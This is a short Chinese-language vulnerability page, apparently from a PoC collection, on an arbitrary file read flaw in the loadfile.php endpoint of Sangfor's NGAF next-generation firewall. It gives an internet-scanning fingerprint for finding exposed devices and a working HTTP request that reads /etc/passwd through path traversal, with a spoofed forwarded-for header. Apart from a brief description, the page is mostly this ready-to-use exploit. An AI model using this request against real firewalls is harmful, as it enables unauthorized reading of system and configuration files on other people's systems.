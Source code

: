 # 深信服 NGAF下一代防火墙 loadfile.php 任意文件读取漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 loadfile.php 处存在文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等。

## 漏洞影响

深信服 NGAF下一代防火墙

## 网络测绘

```
"Redirect.php?url=LogInOut.php"
```

## 漏洞复现

登陆页面

![image-20231115101204343](images/image-20231115101204343.png)

poc

```
GET /svpn_html/loadfile.php?file=/etc/./passwd HTTP/1.1
Host: 
User-Agent: Opera/8.90.(Windows NT 6.0; is-IS) Presto/2.9.177 Version/10.00
Accept-Encoding: gzip, deflate
Accept: */*
y-forwarded-for: 127.0.0.1
```

![image-20231115101759670](images/image-20231115101759670.png)